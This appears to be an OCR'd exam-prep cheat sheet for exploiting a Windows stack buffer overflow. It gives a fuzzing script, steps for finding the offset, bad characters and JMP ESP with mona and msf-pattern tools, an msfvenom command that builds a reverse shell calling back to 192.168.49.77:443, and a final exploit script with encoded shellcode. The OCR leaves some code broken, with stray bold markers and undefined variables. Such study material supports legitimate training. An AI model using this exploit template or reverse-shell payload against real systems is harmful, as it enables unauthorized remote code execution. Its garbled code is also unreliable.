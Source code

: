 **Windows Buffer Overflow Steps**

- **1: Fuzz**
  - **fuzz.py**

#!/usr/bin/env python3

import socket, time, sys

ip = &quot;192.168.110.100&quot;

port = 1234

timeout = 5

prefix = &quot;PREFIX &quot;

postfix=&quot;END&quot;

string = prefix + &quot;A&quot; \* 100 + postfix

while True:

try:

with socket.socket(socket.AF\_INET, socket.SOCK\_STREAM) as s:

s.settimeout(timeout)

s.connect((ip, port))

s.recv(1024)

print(&quot;Fuzzing with {} bytes&quot;.format(len(string) - len(prefix)))

s.send(bytes(string, &quot;latin-1&quot;))

s.recv(1024)

except:

print(&quot;Fuzzing crashed at {} bytes&quot;.format(len(string) - len(prefix)))

sys.exit(0)

string += 100 \* &quot;A&quot;

time.sleep(1)

  - Record **when** does the application crash, assume it crashes at **1000**
- **2: Find offset**
  - **msf-pattern\_create -l 1000, add generated pattern string to string**
  - **string=prefix + pattern + end**
  - Assume **EIP=77767574**
  - **msf-pattern\_offset -l 1000 -q 77767574** or **!mona findmsp** or **!mona findmsp -distance 1000**
  - Note the offset, assume it is **988**
  - **string=** prefix **+ &quot;A&quot; \* 988+&quot;B&quot; \* 4+&quot;C&quot; \* 8+** end
- **3: Find bad characters**
  - badchars = (

&quot;\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10&quot;

&quot;\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20&quot;

&quot;\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30&quot;

&quot;\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40&quot;

&quot;\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50&quot;

&quot;\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60&quot;

&quot;\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70&quot;

&quot;\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80&quot;

&quot;\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90&quot;

&quot;\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0&quot;

&quot;\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0&quot;

&quot;\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0&quot;

&quot;\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0&quot;

&quot;\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0&quot;

&quot;\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0&quot;

&quot;\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff&quot; )

  - Bad characters affect **the next byte** or even **the rest of the string**
  - If bad characters affect the rest string
    - Manual test
  - If bad characters only affect the next byte
    - !mona bytearray -b &quot; **\x00**&quot;
    - !mona compare -a esp -f bytearray.bin
    - **Typically, they are &#39;/x00&#39;** , and the **1**** st **one, the** 3 ****rd** one, the **5**** th **one, … the** (n-1) ****th** one are actual bad characters. But it is not always the case.
  - Assume bad characters are **\x00\x07\x2e\xa0**
- **4: Find JMP ESP**
  - **Method 1 (PWK textbook)**
    - **!mona modules**
    - Select a module which does not have any memory protection and does not start with bad character
    - !mona find -s &quot; **\xff\xe4**&quot; -m &quot;example.dll&quot;
    - Note the address, assume it is **\xaf\x11\x50\x62**
    - string=prefix + &quot;A&quot; \* **988** +&quot; **\xaf\x11\x50\x62**&quot;+&quot;C&quot; \* 8+postfix
  - **Method 2 (THM)**
    - **!mona jmp -r esp -cpb &quot;\x00\x07\x2e\xa0&quot;**
    - Select one which does not have any memory protection
    - Note the address, assume it is **\xaf\x11\x50\x62**
    - string=prefix + &quot;A&quot; \* **988** +&quot; **\xaf\x11\x50\x62**&quot;+&quot;C&quot; \* 8+postfix
- **5: Generate Shell Code**
  - msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.49.77 LPORT=443 EXITFUNC=thread -f c –e x86/shikata\_ga\_nai -b &quot; **\x00\x07\x2e\xa0**&quot;
  - shellcode=&quot;……..&quot;
  - string=prefix + **&quot;A&quot; \* 988** + &quot; **\xaf\x11\x50\x62&quot;** + **&quot;\x90&quot; \* 20** + **shellcode** + postfix
- **6: Combine**
  - Final code

#!/usr/bin/python

import socket

shellcode = (&quot;\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1&quot;

&quot;\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a&quot;

&quot;\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59&quot;

&quot;\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48&quot;

&quot;\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f&quot;

&quot;\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6&quot;

&quot;\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xa4&quot;

&quot;\x55\xa5\x87\x08\xa4\xb7\xc0\xaf\x57\xc2\x38\xcc\xea\xd5\xff&quot;

&quot;\xae\x30\x53\x1b\x08\xb2\xc3\xc7\xa8\x17\x95\x8c\xa7\xdc\xd1&quot;

&quot;\xca\xab\xe3\x36\x61\xd7\x68\xb9\xa5\x51\x2a\x9e\x61\x39\xe8&quot;

&quot;\xbf\x30\xe7\x5f\xbf\x22\x48\x3f\x65\x29\x65\x54\x14\x70\xe2&quot;

&quot;\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62&quot;

&quot;\x8e\xc9\xf4\xfc\x71\xf2\x04\xd5\xb5\xa6\x54\x4d\x1f\xc7\x3e&quot;

&quot;\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\xc7\xe0\xe2&quot;

&quot;\x5a\xe8\x2a\x8b\xf1\x13\xbd\xbe\x0e\x1b\x2f\xd7\x12\x1b\x4e&quot;

&quot;\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\x2c\x42\x73\x4d\x49&quot;

&quot;\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x70&quot;

&quot;\xb6\x30\x95\x1f\x46\x3e\x86\xb7\x11\x17\x78\xce\xf7\x85\x23&quot;

&quot;\x78\xe5\x57\xb5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3e\x9f&quot;

&quot;\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x44\x42\xbe\xe3\x3b\x0c\x56&quot;

&quot;\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc8&quot;

&quot;\x8c\x18\x7d\x36\x47\x99\x8d\x7d\xc5\x88\x05\xd8\x9c\x88\x4b&quot;

&quot;\xdb\x4b\xce\x75\x58\x79\xaf\x81\x40\x08\xaa\xce\xc6\xe1\xc6&quot;

&quot;\x5f\xa3\x05\x74\x5f\xe6&quot;)

try:

print &quot;\nSending evil buffer...&quot;

buffer= prefix + **&quot;A&quot; \* 988** + &quot; **\xaf\x11\x50\x62&quot;** + **&quot;\x90&quot; \* 20** + **shellcode** + postfix

s = socket.socket (socket.AF\_INET, socket.SOCK\_STREAM)

s.connect((&quot;192.168.110.100&quot;, 1337))

s.send(buffer)

s.close()

print &quot;\nDone!&quot;

except:

print &quot;\nCould not connect!&quot;

